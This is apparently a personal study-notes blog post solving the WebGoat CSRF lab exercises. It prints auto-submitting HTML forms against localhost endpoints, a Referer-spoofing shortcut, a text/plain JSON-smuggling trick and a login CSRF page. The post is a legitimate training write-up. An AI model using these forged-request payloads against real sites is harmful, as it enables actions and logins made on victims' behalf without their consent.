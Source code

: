 Title: Road to OSCP: WebGoat A8: CSRF
Summary: Short notes about these tasks
Category: OSCP
Tags: websec, webgoat, csrf
Date: 2020-03-11 14:45
Status: published

#### Basic Get CSRF Exercise
To pass this one we should issue a POST request to `/WebGoat/csrf/basic-get-flag` in that way so it looks like have done from another host. To achieve this one could use intercepting proxy or browser devtools to modify request done from the browser and change `Referer` header's value to some random host. For example, to `example.com`. This solution is cheaty, proper 'exploit' is a page that looks like this:
```html
<html>
  <head></head>
  <body>
    <form name="f" action="http://localhost:8080/WebGoat/csrf/basic-get-flag" method="POST">
      <input type="hidden" name="csrf" value="false"/>
    </form>
    <script>document.f.submit();</script>
  </body>
</html>
```
It will show token after opening.

#### Post a review on someone else’s behalf
It's quite strange, but this could be solved in exact same way like the previous one. Is there some sort of a bug? Making a request with tampered `Referer` allow to pass this one. As earlier, correct solution is to craft a page like this:
```html
<html>
  <head></head>
  <body>
    <form name="f" action="http://localhost:8080/WebGoat/csrf/review" method="POST">
      <input type="hidden" name="reviewText" value="nailed"/>
      <input type="hidden" name="stars" value="5"/>
      <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9"/>
    </form>
    <script>document.f.submit();</script>
  </body>
</html>
```
The only difference is that there are three inputs instead of one, and one contain a static value. 

#### CSRF and content-type
I stuck for a while here. We provided with a writeup on how to exploit some CSRF vulnerabilities where JSON, XML or whatever alike required. Main idea is that we could craft a form that sends some input data as plain text without applying url encoding. This trick is relatively simple:
```html
<html>
  <head></head>
  <body>
    <form name="sample" action="http://localhost:8080/WebGoat/csrf/feedback/message" method="POST" ENCTYPE="text/plain">
      <input type="hidden" name='{"name":"WebGoat","email":"webgoat@webgoat.org","subject":"service","content":"WebGoat is the best!!"}'/>
    </form>
    <script>document.sample.submit();</script>
  </body>
</html>
```
Did you notice `ENCTYPE` form attribute? That's telling browser not to apply url encoding and effectively changes `Content-Type` header value to `text/plain` (at least in Firefox 68). The main caveat here is that browser appends equal sign at the end of the JSON because it expects some value passed in. This is where I stuck and even was thinking that this task is outdated, mostly because of this fragment of writeup:
> This results in a perfectly formatted Cross-Domain XML POST request.  The ENCTYPE avoids the body being encoded and he cleverly absorbs the unwanted “=” into the XML at a point where we need an “=” anyway.

Well, it does not "absorb the unwanted =" hence JSON rendered invalid and this will result in HTTP 500. I also found a [W3C standard](https://www.w3.org/TR/html52/sec-forms.html#plain-text-form-data) that instructs to do so and really was thinking that browsers fixed this behaviour some way. Hovewer, [Firefox 52.0.2](https://ftp.mozilla.org/pub/firefox/releases/52.0.2/) (dates back to when writeup was published) behaves exactly like Firefox 68, so this hypothesis does not seem to be right. So I've tried to use some `<!DOCTYPE>` declarations and `version` html attributes to tell browser that this doc is not HTML5 compliant. Still no luck. Dumb me! Solution was pretty simple. It was possible to provide phony JSON member that swallows unwanted equal sign. It was needed to change `input` declaration in that fashion:
```html
<input type="hidden" name='{"name":"WebGoat",...<SNIP>...,"phony:"' value='useless"}'/>
```
So resultant JSON will look like this:
```json
{
  "name": "WebGoat",
  "email": "webgoat@webgoat.org",
  "subject": "service",
  "content": "WebGoat is the best!!",
  "phony": "=useless"
}
```
Last member is ignored by the application and I've finally got a flag.

#### Login CSRF attack
If I grasp it right, to solve is simply to craft a document like this and open it locally or upload to webwolf and open from it:
```html
<html>
  <head></head>
  <body>
    <form name="sample" action="http://localhost:8080/WebGoat/login" method="POST">
	    <input type="hidden" name='username' value='csrf-theuser'/>
	    <input type="hidden" name='password' value='theuser'/>
    </form>
    <script>document.sample.submit();</script>
  </body>
</html>
```
It could be assumed that document may have any sophisticated form, for example exact copy of original logn page thus allowing attacker to harvest credentials.
Also need to carefully read [paper](http://seclab.stanford.edu/websec/csrf/csrf.pdf) from the exercise.
